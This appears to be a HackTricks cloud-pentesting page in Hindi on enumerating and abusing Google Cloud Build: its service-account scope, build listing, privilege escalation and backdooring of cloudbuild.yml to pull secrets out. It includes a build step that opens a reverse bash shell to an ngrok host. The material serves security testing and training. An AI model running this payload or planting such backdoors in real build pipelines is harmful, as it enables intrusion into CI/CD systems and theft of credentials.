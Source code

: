 # GCP - Cloud Build Enum

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफॉर्म है जो **सॉफ्टवेयर बिल्ड** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **स्रोत कोड रिपोजिटरीज** के साथ एकीकृत होता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को बिल्ड, टेस्ट, और स्वचालित रूप से डिप्लॉय करने की अनुमति देता है** और बिल्ड स्टेप्स और वर्कफ्लोज को कस्टमाइज़ करने की लचीलापन प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित होता है या सीधे एक बाहरी रिपोजिटरी से जुड़ा होता है** (Github, Bitbucket या Gitlab)।

Cloud Build को कॉन्फ़िग करना संभव है ताकि **बिल्ड निष्पादन के लिए अनुमोदन की आवश्यकता हो** (डिफ़ॉल्ट रूप से अक्षम)।

**सर्विस अकाउंट के पास `cloud-platform` स्कोप होता है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं है** (जैसे कि सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` **का उपयोग किया जाएगा।**

{% hint style="success" %}
मैंने यहाँ या Cloud Repositories से Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा क्योंकि जब रिपो डाउनलोड की जाती है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### स्टोरेज

कभी-कभी Cloud Build **ट्रिगर के लिए फाइलों को स्टोर करने के लिए एक नया स्टोरेज जनरेट करेगा**। यह उदाहरण के लिए GCP द्वारा दिए गए उदाहरण में होता है:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### शेल प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### सूचीकरण

आप **build configs और logs में संवेदनशील जानकारी पा सकते हैं**।
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## विशेषाधिकार वृद्धि

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुँच

### cloudbuild.yml

यदि आप **`cloudbuild.yml`** नामक फाइल वाले रिपॉजिटरी की लिखने की पहुँच को समझौता करते हैं, तो आप इस फाइल को **बैकडोर** कर सकते हैं, जो निर्दिष्ट करता है कि **कौन से आदेश निष्पादित किए जाएंगे** Cloud Build के अंदर और गुप्त सूचनाओं को बाहर निकाल सकते हैं, जो किया जा रहा है उसे समझौता कर सकते हैं और साथ ही **Cloud Build सेवा खाते** को भी समझौता कर सकते हैं।

{% hint style="info" %}
ध्यान दें कि GCP में विकल्प होता है जो प्रशासकों को बाहरी PRs के माध्यम से निर्माण प्रणालियों के निष्पादन को नियंत्रित करने की अनुमति देता है "Comment Control" के माध्यम से। Comment Control एक सुविधा है जहाँ सहयोगी/परियोजना मालिकों को **PR के खिलाफ निर्माण को ट्रिगर करने के लिए “/gcbrun” टिप्पणी करने की आवश्यकता होती है** और इस सुविधा का उपयोग करना स्वाभाविक रूप से इंटरनेट पर किसी को भी आपकी निर्माण प्रणालियों को ट्रिगर करने से रोकता है।
{% endhint %}

इससे संबंधित कुछ जानकारी के लिए आप Github Actions पर हमला करने के बारे में पृष्ठ देख सकते हैं (इसके समान):

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर मुझे **फॉलो** करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
